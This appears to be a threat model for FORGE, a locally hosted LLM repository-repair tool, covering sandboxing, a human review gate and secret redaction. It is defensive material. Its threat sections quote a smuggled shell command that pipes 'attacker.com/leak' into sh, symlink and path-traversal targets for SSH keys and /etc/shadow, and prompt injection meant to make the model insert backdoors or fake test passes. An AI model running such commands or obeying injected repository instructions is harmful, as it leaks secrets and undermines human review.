

# FORGE Security Architecture & Threat Model

**Document Version:** 1.0.0-beta.1  
**Phase:** Phase 6 (Supervised Beta Packaging & Operational Readiness)  
**Security Baseline:** Milestone 5 Hardened  
**Target Audience:** Enterprise Security Auditors, DevSecOps Engineers, and System Operators

---

## 1. Executive Summary & Security Objectives

FORGE is designed from first principles for investigating, reviewing, and repairing software repositories without compromising host environments, leaking intellectual property, or executing untrusted code outside strict containment.

Traditional developer tooling and LLM-based autonomous agents suffer from systemic security vulnerabilities:
1. They blindly execute repository-controlled code (e.g. test discovery, builds, linters) on the host machine with operator privileges.
2. They route proprietary code to remote cloud APIs without clear boundaries or audit trails.
3. They fabricate verification certificates or hallucinate passed test suites.
4. They mutate production repositories autonomously without human approval.

FORGE mitigates these threats by enforcing strict architectural isolation, cryptographic verification, fail-closed sandboxing, and non-negotiable human review gates.

---

## 2. Attack Surface Analysis

The FORGE attack surface is partitioned across nine explicit security boundaries:

| Boundary | Description | Key Assets at Risk | Core Protective Control |
| :--- | :--- | :--- | :--- |
| **1. Target Repository Ingestion** | Local directories or git clone operations. | Host filesystem, git credentials. | Input sanitization, path traversal checks, read-only mounts. |
| **2. Dynamic Code Execution** | Running unit tests and reproduction scripts. | Host execution integrity, network services. | Docker containers (`--network none`, read-only target, dropped capabilities, non-root user). |
| **3. Model Inference Interface** | Communication with inference endpoints. | Proprietary source code, API keys. | Local-only default (`http://localhost:11434`), disabled cloud fallback (`FORGE_ALLOW_CLOUD_FALLBACK=false`). |
| **4. Repair Synthesis & AST** | Patch generation from LLM proposals. | Syntax integrity, control flow, invariants. | Deterministic coordinate ownership, AST semantic verifier, indentation validation. |
| **5. Evidence & Storage Ledger** | Transactional SQLite storage. | Finding provenance, verification proofs. | Transactional SQLite schema, cryptographic digests (SHA-256), sequential event log. |
| **6. Human Review Gate** | Patch approval and dossier export. | Git commit history, pull request integrity. | Mandatory `AWAITING_HUMAN_REVIEW` halt, revision drift check, immutable rejection. |
| **7. Diagnostics & Logging** | Console messages, doctor commands, telemetry. | API tokens, credentials, private paths. | Continuous multi-pattern secret redaction (`redact_secrets()`). |
| **8. Distribution Packaging** | Wheel and source distribution archives. | Package consumers, supply chain. | `MANIFEST.in` exclusion rules, release manifest, SHA-256 integrity verification. |
| **9. CI/CD Release Automation** | GitHub Actions workflows and build pipelines. | Repository integrity, release artifacts. | Minimal `GITHUB_TOKEN` permissions, pinned action SHAs, OIDC build provenance attestation. |

---

## 3. Threat Scenarios, Attacks & Defenses

### 3.1 Malicious Repository Content & Sandbox Escapes
- **Threat Vector:** A malicious repository contains weaponized files designed to achieve remote code execution on the operator machine:
  - Malicious `.git/hooks`, `setup.py`, or `Makefile` scripts designed to auto-run on inspection.
  - Symlink attacks pointing to `/etc/passwd`, `~/.ssh/id_rsa`, or Docker sockets.
  - Path traversal attempts in relative file paths (e.g. `../../etc/shadow`).
  - Exploits targeting container runtimes (e.g. privilege escalation, `/proc` manipulation).
- **FORGE Defenses:**
  - **No Repository-Driven Script Execution on Host:** Static inspection uses Python AST and standard library tools. No build tools (`make`, `setup.py`, `pip`) are ever invoked on the host.
  - **Fail-Secure Container Execution:** All dynamic reproduction and test verification runs inside isolated Docker containers:
    - Target repository is mounted strictly **read-only** (`:ro`).
    - Ephemeral scratch space is mounted on a memory-capped `tmpfs` (64MB) with `noexec` where practical.
    - Container executes as non-root (`UID 1000:GID 1000`).
    - All Linux capabilities are dropped (`--cap-drop ALL`).
    - Privilege escalation is barred (`--security-opt no-new-privileges:true`).
    - Network interface is completely disabled (`--network none`).
  - **Path Normalization:** Relative file paths are resolved against workspace boundaries; any traversal escaping repository roots raises `PathTraversalSecurityError`.

### 3.2 Prompt Injection & Adversarial Instructions
- **Threat Vector:** Adversarial repository content (e.g. prompt injection comments, instructions in README, or poisoned test docstrings) attempts to trick the LLM into:
  - Injecting backdoor code or disabling security guards.
  - Bypassing pre-existing validation checks.
  - Claiming tests passed without running them.
- **FORGE Defenses:**
  - **Model Has Zero Execution Authority:** The LLM cannot execute shell commands, issue network requests, or modify files. It only outputs structured JSON containing typed repair replacements.
  - **Independent AST Semantic Verifier:** Every generated proposal is inspected by the deterministic semantic verifier (`app/forge/repair/semantic_verifier.py`), which validates:
    - Pre-existing validation guards are preserved.
    - No unreachable statements are created after unconditional returns.
    - Docstrings and structural comments are not displaced.
  - **Multi-Check Isolated Dynamic Re-Verification:** The candidate patch must pass all test checks inside the Docker container. A hallucinated or poisoned fix that fails the reproduction test is instantly rejected (`verification_failed`).

### 3.3 Subprocess Argument Injection
- **Threat Vector:** Malicious defect commands or test parameters attempt shell metacharacter injection (e.g. `test.py; curl attacker.com/leak | sh`).
- **FORGE Defenses:**
  - **Typed Argument Arrays:** Shell strings are strictly forbidden in execution contracts. Commands must be passed as `List[str]`.
  - **No `shell=True`:** Subprocesses are invoked directly through `subprocess.run(args, shell=False)` inside the sandbox container. Shell metacharacters are treated as literal strings.

### 3.4 Secret Exfiltration & Environment Variable Leakage
- **Threat Vector:** Tool execution outputs, stack traces, or exception messages contain sensitive credentials (e.g. API keys, GitHub tokens, AWS keys) that could be written to logs or SQLite stores.
- **FORGE Defenses:**
  - **Outbound Redaction Filter:** All tool outputs, evidence contents, event payloads, and reports pass through `redact_secrets()`, which scrubs regex patterns for API keys (`sk-...`, `ghp_...`, `gsk_...`, `AKIA...`, Bearer tokens).
  - **Zero Credential Mounting:** Host user home directories (`~/.ssh`, `~/.aws`, `~/.docker`) are never mounted into containers.

### 3.5 Target Repository Revision Drift
- **Threat Vector:** An operator reviews a patch candidate generated against commit `A`, but the underlying repository has since moved to commit `B` (e.g. new commits pulled or branch checked out). Approving the patch could result in stale, broken, or regressive code.
- **FORGE Defenses:**
  - **Cryptographic Base Commit Pinning:** Workflows record the target repository's exact `base_commit_sha`.
  - **Pre-Approval Drift Interception:** When `forge workflow review --approve` executes, it compares the current `HEAD` commit against `base_commit_sha`. If the repository has diverged, it halts immediately with `RevisionDriftError`.

### 3.6 Dependency Confusion & Supply Chain Tampering
- **Threat Vector:** Attackers publish malicious packages with names matching internal dependencies, or compromise upstream package registries.
- **FORGE Defenses:**
  - **Strict Dependency Pinning:** Dependencies are pinned with exact versions in `requirements/constraints.txt`.
  - **Zero Unpinned Upgrades:** Upgrades must be audited with `pip-audit` and tested against the full regression suite before inclusion.
  - **Packaging Isolation:** Wheels are built with `--no-isolation` using locally verified build packages.

---

## 4. Residual Risks & Unsupported Security Claims

Enterprise operators must understand what FORGE **does not** protect against:

1. **Host-Level Compromise:** If the operator workstation is already compromised with rootkits, keyloggers, or malicious Docker daemon configurations, FORGE cannot guarantee execution safety.
2. **Docker Zero-Day Kernel Escapes:** Container isolation relies on Linux cgroups and namespaces. While FORGE applies defense-in-depth (`--cap-drop ALL`, non-root UID, `no-new-privileges`), zero-day kernel vulnerabilities could theoretically allow container escapes.
3. **Hardware Side-Channel Attacks:** FORGE does not defend against speculative execution side-channel attacks (e.g. Spectre/Meltdown) on shared multi-tenant hardware.
4. **Third-Party Model Biases:** FORGE uses locally hosted open-weights models (e.g. Qwen, Llama). FORGE guarantees deterministic validation of proposals, but cannot guarantee that the model will find an optimal fix for every defect class.
5. **Formal Certification Disclosure:** The FORGE Supervised Beta has not undergone formal third-party certification (e.g. SOC 2 Type II, ISO/IEC 27001, or FedRAMP). Organizations must evaluate FORGE against their internal risk management framework.
